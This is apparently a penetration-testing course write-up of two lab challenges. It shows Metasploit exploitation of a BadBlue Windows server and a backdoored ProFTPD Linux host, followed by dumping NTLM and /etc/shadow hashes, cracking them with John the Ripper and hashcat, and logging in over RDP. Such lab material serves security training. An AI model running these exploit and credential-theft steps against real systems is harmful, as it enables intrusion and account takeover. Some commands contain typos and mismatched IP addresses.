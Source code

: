 # 🔬Cracking Hashes

## Lab 1 - Windows <a href="#lab-1-windows" id="lab-1-windows"></a>

> 🔬 [Windows: NTLM Hash Cracking](https://attackdefense.com/challengedetails?cid=2351)
>
> * Target IP: `10.0.27.144`
> * **NTLM Hashes dumping and cracking**

#### Enumeration & Exploitation <a href="#enumeration-and-exploitation" id="enumeration-and-exploitation"></a>

```
nmap -sV -p 80 10.0.27.144
```

```bash
80/tcp open  http BadBlue httpd 2.7
```

```bash
service postgresql start && msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
options
setg RHOSTS 10.2.24.37
epxloit
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
    Server username: WIN-OMCNBKR66MN\Administrator
getprivs 

    Enabled Process Privileges
    ==========================
    
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

* With the `Administrator` Meterpreter session, privilege escalation is not necessary.
* Migrate to the `lsass` process

```bash
pgrep lsass
migrate 688
# Meterpreter session is x64 and more stable now
```

### Dumping Hashes <a href="#dumping-hashes" id="dumping-hashes"></a>

❗ In order to set up persistence, administrative privileges are required.

```bash
hashdump 
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Open a new tab and create a `.txt` file with the dumped hashes. Paste the `Administrator` and `bob` hashes

```bash
vim hashes.txt
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
    bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

### Cracking Hashes <a href="#cracking-hashes" id="cracking-hashes"></a>

* Metasploit [auxiliary/analyze/crack\_windows](https://www.rapid7.com/db/modules/auxiliary/analyze/crack\_windows) module can be used to brute-force the hashes.

```bash
background
use auxiliary/analyze/crack_windows
options
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### **JohnTheRipper**

* In this case John The Ripper will be used as an example

[**`john`**](https://github.com/openwall/john) - _Open Source password security auditing and password recovery tool available for many operating systems_

```bash
john --list=formats | grep NT
	netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon
```

```bash
john --format=NT hashes.txt
# It will use the default wordlist
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Use the **`rockyou.txt`** wordlist instead

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### **Hashcat**

[**`hashcat`**](https://hashcat.net/hashcat/) - _Open Source advanced password recovery utility, supporting five unique modes of attack for over 300 highly-optimized hashing algorithms_

* Crack NTLM hashes with **`hashcat`** brute-force

```bash
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt 
    8846f7eaee8fb117ad06bdd830b7586c:password
    5835048ce94ad0564e29a924a03510ef:password1
```

* Try RDP login (Make sure that the port is open)

```bash
xfreerdp /u:Administrator /p:password /v:10.0.27.144
```

{% hint style="success" %}
**Administrator User Password:** `password`

**Bob User Password:** `password1`
{% endhint %}

***

## Lab 2 - Linux <a href="#lab-2-linux" id="lab-2-linux"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.22.107.3`
> * **Password Hashes dumping and cracking**
> * Same lab as the [🔬Hashes Dumping lab](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/creds-dump-unix)

#### Enumeration & Exploitation <a href="#enumeration-and-exploitation-1" id="enumeration-and-exploitation-1"></a>

```bash
ip -br -c a
	192.249.201.2/24
```

```bash
nmap -sV 192.249.201.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.3c
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 192.22.107.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
exploit
```

```bash
/bin/bash -i
```

### Dumping Hashes <a href="#dumping-hashes-1" id="dumping-hashes-1"></a>

```bash
cat /etc/shadow
```

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`
>
> * `$6` = the hashing algorithm is **SHA-512**

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* An MSF module can be used for hash dumping

```bash
# CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```bash
cat /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt
	root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

* Exit `MSFconsole`

### Cracking Hashes <a href="#cracking-hashes-1" id="cracking-hashes-1"></a>

* Metasploit [auxiliary/analyze/crack\_linux](https://github.com/syselement/ine/blob/main/ejpt/hostnetwork-penetration-testing/5-post-exploit/auxiliary/analyze/crack\_linux/README.md) module can be used to brute-force the hashes. Check the technique in the same [🔬lab environment](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/creds-dump-unix).

**JohnTheRipper**

* In this case John The Ripper will be used as an example

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz 
```

```bash
john --format=sha512crypt /root/.msf4/loot/20240811052111_default_192.249.201.3_linux.hashes_859038.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### **Hashcat**

```bash
hashcat --help | grep 1800
	1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems
```

```bash
hashcat -a3 -m 1800 /root/.msf4/loot/20240811052111_default_192.249.201.3_linux.hashes_859038.txt /usr/share/wordlists/rockyou.txt 
```

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**root Password:** `password`
{% endhint %}
